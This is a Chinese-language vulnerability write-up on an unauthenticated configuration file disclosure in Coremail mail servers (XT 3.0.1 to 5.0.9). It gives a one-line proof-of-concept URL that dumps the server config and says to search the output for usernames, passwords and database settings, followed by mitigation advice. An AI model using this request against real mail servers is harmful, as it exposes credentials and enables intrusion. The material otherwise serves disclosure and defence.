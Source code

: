 ```yaml
---
title: Coremail配置文件信息泄漏
id: zhfly2858
---
```


### 一、漏洞简介

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news_x/article_id/32641.htm

### 二、漏洞影响

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

### 三、复现过程

##### POC

```
http://mail.xxxxx.com/mailsms/s?func=ADMIN:appState&dumpConfig=/ 
```

输入Poc访问漏洞页面
发现信息泄露页面内搜索user，password，database等关键字
如下图

![image](../img/ca7ffe7a68d20b74aca6b57e6f0b65c9.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms 路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。